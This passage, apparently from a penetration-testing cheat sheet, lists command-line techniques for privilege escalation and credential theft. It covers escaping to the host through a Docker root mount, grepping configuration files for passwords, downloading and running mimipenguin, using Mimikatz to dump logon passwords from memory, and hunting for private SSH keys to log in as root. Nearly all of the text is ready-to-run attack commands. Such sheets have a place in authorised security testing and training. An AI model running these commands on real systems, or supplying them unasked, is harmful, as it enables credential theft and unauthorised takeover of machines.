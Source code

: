```bash
docker run -v /:/mnt -it alpine  
chroot /mnt
```

---

## 6. Password Hunting

### A. Search in Files

**Linux**

```bash
grep -ri "password" /var/www /etc 2>/dev/null
```

**Windows**

```powershell
findstr /si "password" *.txt *.xml *.config
```

### B. Extract from Memory

**Linux**

```bash
wget https://github.com/huntergregal/mimipenguin/releases/download/v1.0.1/mimipenguin_1.0.1-1kali0_all.deb  
dpkg -i mimipenguin_1.0.1-1kali0_all.deb  
mimipenguin
```

**Windows**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
```

---

## 7. SSH Key Abuse

### A. Finding Keys

```bash
find / -name "id_rsa*" 2>/dev/null
```

### B. Using Keys

```bash
chmod 600 found_key  
ssh -i found_key root@localhost
```

---